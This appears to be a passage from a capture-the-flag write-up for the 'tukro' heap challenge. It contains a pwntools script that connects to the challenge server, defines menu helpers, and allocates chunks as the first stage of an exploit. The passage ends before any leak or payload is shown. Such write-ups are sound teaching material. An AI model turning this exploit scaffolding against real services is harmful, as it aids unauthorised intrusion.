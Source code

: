 ## Exploit Development and Analysis

Getting leaks shouldn't be a herculean task , so let's go with it without further blabbering.

First we allocate 3 users , sign in to first user and allocate 8 chunks into second user's bss space.

```py
from pwn import *
import sys

libc = ELF("./libc.so.6",checksec=False)
if(len(sys.argv)>1):
    io=remote('tukro.pwn2.win',1337)
    context.noptrace = True
else:
    io = process("./tukro",env = {"LD_PRELOAD" : "./libc.so.6"})

def sign_up(user,passw):
    io.sendlineafter("Your choice: ","1")
    io.sendlineafter("Username: ",str(user))
    io.sendlineafter("Password: ",str(passw))

def sign_in(user,passw):
    io.sendlineafter("Your choice: ","2")
    io.sendlineafter("Username: ",str(user))
    io.sendlineafter("Password: ",str(passw))


def add(recp,test):
    io.sendlineafter("Your choice: ","1")
    io.sendlineafter("Recipient Username: ",str(recp))
    io.sendlineafter("Testimonial: ",str(test))

def my_test():
    io.sendlineafter("Your choice: ","2")

def edit(choice,number,data):
    io.sendlineafter("Your choice: ","3")
    io.recvuntil("Edit Testimonial (y/N): ")
    io.sendline(choice)
    if(choice == "y"):
        io.sendlineafter("Testimonial Number: ",str(number))
        io.sendlineafter("New Testimonial: ",data)

def delete(number):
    io.sendlineafter("Your choice: ","4")
    io.sendlineafter("Testimonial Number: ",str(number))

def sign_out():
    io.sendlineafter("Your choice: ","5")


if __name__ == "__main__":
    sign_up("first_user","first_user")
    sign_up("second","second")
    sign_up("third","third")
    sign_in("first_user","first_user")
    for i in xrange(8):
        add("second",str(chr(ord('a') + i))*4)
    gdb.attach(io)
    io.interactive()

```
